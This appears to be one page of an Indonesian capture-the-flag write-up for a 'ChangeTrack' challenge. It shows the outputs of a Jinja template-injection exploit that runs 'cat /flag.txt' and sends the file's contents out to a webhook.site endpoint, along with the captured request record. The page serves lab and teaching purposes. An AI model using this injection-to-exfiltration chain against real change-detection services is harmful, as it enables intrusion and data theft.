


# ChangeTrack — Output asli

[← Overview](48-changetrack.md) · [Index](index.md)

## 3.3 Output asli

Benign SSTI:

```text
HELLO_WEBHOOK_SITE 49
target=https://api.github.com/events
```

RCE / flag:

```text
########## FLAG1: cat /flag.txt  (captures=2)
FLAG1
NFX{ch4ng3_d3t3ct10n_j1nj4_sst1_oob_cve_2024_32651_2026}
```

Capture JSON:

```text
HTTP 200
{
  "uuid": "25852c30-ba6f-464b-9ce6-4b2596fdbd33",
  "created_at": "2026-11-08 01:26:06",
  "ip": "116.212.75.209",
  "method": "POST",
  "url": "https://webhook.site/8509b71c-b1c7-4a12-baf7-26428e5b36a1",
  "content": "FLAG1\nNFX{ch4ng3_d3t3ct10n_j1nj4_sst1_oob_cve_2024_32651_2026}\n"
}
```

### Evidence langkah ini



*Terminal evidence — `03-benign-save.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `14-flag-capture.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-benign-save.txt`](assets/changetrack/03-benign-save.txt)
- [`14-flag-capture.txt`](assets/changetrack/14-flag-capture.txt)
